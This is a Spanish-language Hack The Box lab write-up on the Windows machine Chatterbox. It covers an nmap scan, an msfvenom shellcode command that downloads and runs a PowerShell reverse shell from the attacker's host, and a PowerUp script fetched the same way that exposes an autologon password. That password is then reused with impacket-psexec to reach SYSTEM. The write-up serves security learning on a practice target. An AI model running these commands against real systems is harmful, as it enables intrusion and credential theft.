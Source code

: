 ```yaml
---
layout: single
title: Chatterbox - Hack The Box
excerpt: "Chatterbox es una máquina windows calificada como media, que posee un servicio web Achat a lo cual contiene una vulnerabilidad de ejecución de comandos. Luego de entrar la escalada de privilegios es bastante fácil, contiene una password expuesta por malas configuraciones."
date: 2022-09-07
classes: wide
header:
  teaser: /assets/images/htb-writeup-chatterbox/chatterbox_logo.png
  teaser_home_page: true
  icon: /assets/images/hackthebox.webp
categories:
  - hackthebox
  - cxdxnt
tags:  
  - psexec 
  - msfvenom
  - achat web
---
```


![](/assets/images/htb-writeup-chatterbox/chatterbox_logo.png)

Hoy nos enfrentamos contra Chatterbox que es una máquina Windows que ejecuta un cliente de chat web vulnerable a desbordamientos de búfer remotos. Esta vulnerabilidad se aprovechó para obtener una reverse shell en el host y obtener los indicadores de usuario y root debido a permisos débiles o mal configurados.

## Enumeración

Empezamos con una simple reconocimiento con nmap,al ejecutarlo podemos ver que corre un servicio achat.

```ruby
nmap -sCV -p135,139,445,9255,9256,49152,49153,49154,49155,49156,49157 10.10.10.74
Starting Nmap 7.92 ( https://nmap.org ) at 2022-09-07 16:12 -03
Nmap scan report for 10.10.10.74
Host is up (0.25s latency).

PORT      STATE SERVICE      VERSION
135/tcp   open  msrpc        Microsoft Windows RPC
139/tcp   open  netbios-ssn  Microsoft Windows netbios-ssn
445/tcp   open  microsoft-ds Windows 7 Professional 7601 Service Pack 1 microsoft-ds (workgroup: WORKGROUP)
9255/tcp  open  mon?
9256/tcp  open  unknown
49152/tcp open  msrpc        Microsoft Windows RPC
49153/tcp open  msrpc        Microsoft Windows RPC
49154/tcp open  msrpc        Microsoft Windows RPC
49155/tcp open  msrpc        Microsoft Windows RPC
49156/tcp open  msrpc        Microsoft Windows RPC
49157/tcp open  msrpc        Microsoft Windows RPC
Service Info: Host: CHATTERBOX; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
|_clock-skew: mean: 6h07m00s, deviation: 2h18m34s, median: 4h46m59s
| smb2-time: 
|   date: 2022-09-08T00:00:18
|_  start_date: 2022-09-07T23:56:02
| smb2-security-mode: 
|   2.1: 
|_    Message signing enabled but not required
| smb-security-mode: 
|   account_used: <blank>
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb-os-discovery: 
|   OS: Windows 7 Professional 7601 Service Pack 1 (Windows 7 Professional 6.1)
|   OS CPE: cpe:/o:microsoft:windows_7::sp1:professional
|   Computer name: Chatterbox
|   NetBIOS computer name: CHATTERBOX\x00
|   Workgroup: WORKGROUP\x00
|_  System time: 2022-09-07T20:00:19-04:00

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 80.47 seconds
```
Buscamos exploit para dicho servicio que mencionamos anteriormente.

![](/assets/images/htb-writeup-chatterbox/exploit.png)

Y vemos un script en python que gracias a un desbordamiento de buffer logra ejecutar comandos. Sacamos el shellcode que contiene el script y procedemos a crear el nuestro :).

```bash
msfvenom -a x86 --platform Windows -p windows/exec CMD="powershell IEX(New-Object Net.WebClient).downloadString('http://10.10.14.8/Invoke-PowerShellTcp.ps1')" -e x86/unicode_mixed -b '\x00\x80\x81\x82\x83\x84\x85\x86\x87\x88\x89\x8a\x8b\x8c\x8d\x8e\x8f\x90\x91\x92\x93\x94\x95\x96\x97\x98\x99\x9a\x9b\x9c\x9d\x9e\x9f\xa0\xa1\xa2\xa3\xa4\xa5\xa6\xa7\xa8\xa9\xaa\xab\xac\xad\xae\xaf\xb0\xb1\xb2\xb3\xb4\xb5\xb6\xb7\xb8\xb9\xba\xbb\xbc\xbd\xbe\xbf\xc0\xc1\xc2\xc3\xc4\xc5\xc6\xc7\xc8\xc9\xca\xcb\xcc\xcd\xce\xcf\xd0\xd1\xd2\xd3\xd4\xd5\xd6\xd7\xd8\xd9\xda\xdb\xdc\xdd\xde\xdf\xe0\xe1\xe2\xe3\xe4\xe5\xe6\xe7\xe8\xe9\xea\xeb\xec\xed\xee\xef\xf0\xf1\xf2\xf3\xf4\xf5\xf6\xf7\xf8\xf9\xfa\xfb\xfc\xfd\xfe\xff' BufferRegister=EAX -f python
```

Ejecutamos el script y tenemos una shell.

![](/assets/images/htb-writeup-chatterbox/powershell.png)
## Elevacion de privilegios

Indagamos un rato por el sistema y no encontramos nada, por lo cual se me ocurrió lanzar un script de powersploit llamado PowerUp, dicho script se encarga de buscar malas configuraciones dentro del sistema. Lo ejecutamos y obtenemos esto.

```powershell
S C:\Users\Alfred\Downloads> powershell "IEX(New-Object Net.WebClient).downloadString('http://10.10.14.8/PowerUp.ps1')"       

DefaultDomainName    : 
DefaultUserName      : Alfred
DefaultPassword      : Welcome1!
AltDefaultDomainName : 
AltDefaultUserName   : 
AltDefaultPassword   : 
Check                : Registry Autologons

UnattendPath : C:\Windows\Panther\Unattend.xml
Name         : C:\Windows\Panther\Unattend.xml
Check        : Unattended Install Files
PS C:\Users\Alfred\Downloads> 
```

Probamos si se está reutilizando la password para el usuario administrator, y vemos que sí. Logramos estar como administrator :).

```bash
impacket-psexec 'WORKGROUP/Administrator:Welcome1!@10.10.10.74' cmd.exe

Impacket v0.9.21 - Copyright 2020 SecureAuth Corporation
[*] Requesting shares on 10.10.10.74.....
[*] Found writable share ADMIN$
[*] Uploading file UOAxbKbJ.exe
[*] Opening SVCManager on 10.10.10.74.....
[*] Creating service BYQJ on 10.10.10.74.....
[*] Starting service BYQJ.....
[!] Press help for extra shell commands
Microsoft Windows [Version 6.1.7601]
Copyright (c) 2009 Microsoft Corporation.  All rights reserved.

C:\Windows\system32>whoami
nt authority\system
C:\Windows\system32>
```
